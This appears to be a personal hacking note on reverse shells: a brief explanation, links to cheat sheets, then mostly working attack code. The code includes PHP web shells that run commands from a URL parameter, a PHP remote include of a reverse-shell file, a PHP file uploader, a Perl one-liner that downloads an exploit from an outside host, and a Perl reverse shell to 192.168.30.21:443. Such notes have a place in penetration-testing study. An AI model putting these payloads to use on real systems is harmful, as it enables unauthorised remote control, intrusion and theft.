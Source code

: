 is:: [[note]]
from:: [[hacking]]

# Notes
Most systems are protected by firewalls restricting inbound traffic. A reverse shell bypasses this by making *outbound* connections from the system to a hacker-controlled one.

## Links
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
http://roo7break.co.uk/?p=215
[Bernardo Dag: Reverse shells one-liners](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
[lanmaster53.com](https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
 [http://laudanum.secureideas.net/](http://laudanum.secureideas.net/)
http://pentestmonkey.net/blog/post-exploitation-without-a-tty
https://gtfobins.github.io/#+reverse%20shell

# Shell One-liners

```
PHP one-liners

<?php echo system($_GET['cmd']); ?>

<?php echo shell_exec($_GET['cmd']); ?>

<?php include "http://192.168.30.21/php-reverse-shell443.php"; ?>
```

This will execute $cmd in the background (no cmd window) without PHP waiting for it to finish, on both Windows and Unix.
```
<?php
function execInBackground($cmd) {
if (substr(php_uname(), 0, 7) == "Windows"){
pclose(popen("start /B ". $cmd, "r"));
}
else {
exec($cmd . " > _dev_null &");
}
}
?>
```

Short php uploader
```
<?php
try {
ini_set('allow_url_fopen', true);
$data = file_get_contents($_GET['url']);
$handle = fopen($_GET['dest'], "w");
fwrite($handle, $data);
fclose($handle);
echo 'Download succeeded';
} catch (Exception $e) {
echo 'Caught exception: ',  $e->getMessage(), "\n";
}
?>
```

Use perl when no wget
```
perl -e 'use File::Fetch; my $ff = File::Fetch->new(uri => "http://192.168.30.21/28718.c"); my $where = $ff->fetch() or die $ff->error;'
```

Need to test, but should create a reverse shell in Perl on both Linux and Windows
 # Create reverse shell in background
```
my $pid = fork;
if ($pid == 0) {
my $c=new IO::Socket::INET(PeerAddr=>"192.168.30.21:443");
STDIN->fdopen($c, 'r');
STDOUT->fdopen($c, 'w');
STDERR->fdopen($c, 'w');
while (<>) {
system($_);
}
}
```
